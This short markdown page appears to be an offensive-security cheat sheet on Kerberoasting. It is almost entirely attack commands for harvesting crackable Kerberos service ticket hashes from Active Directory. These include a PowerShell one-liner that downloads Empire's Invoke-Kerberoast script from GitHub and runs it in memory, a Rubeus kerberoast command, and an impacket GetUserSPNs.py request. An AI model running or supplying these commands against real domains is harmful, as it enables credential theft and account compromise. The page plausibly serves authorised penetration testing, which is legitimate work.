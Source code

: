 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```

#### Kerberoasting using Rubeus
The following command shows an example of how to peroform a kerberoasting attack using Rubeus. The outfile parameter ensures that the hashes are in a crackable (non newline delimited) format.

```.\Rubeus.exe kerberoast /creduser:<Domain>\<User> /credpassword:<Password> /domain:<Domain> /dc:<DomainController> /format:hashcat /outfile:roast.txt```

#### Kerberoasting from a non-domain joined machines using impackets GetUserSPNs.py

```
GetUserSPNs.py domain.local/username:password  -request
```